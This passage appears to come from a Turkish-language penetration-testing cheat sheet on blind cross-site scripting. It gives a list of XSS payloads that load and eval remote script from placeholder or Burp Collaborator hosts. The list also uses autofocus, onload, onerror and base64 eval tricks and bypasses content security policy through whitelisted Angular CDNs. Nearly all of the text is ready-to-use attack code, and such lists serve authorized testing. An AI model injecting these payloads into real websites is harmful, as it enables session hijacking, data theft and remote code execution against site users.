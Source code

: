 Ayrıca şunu kullanabilirsiniz: [https://xsshunter.com/](https://xsshunter.com)
```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')">

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
### Regex - Gizli İçeriğe Erişim
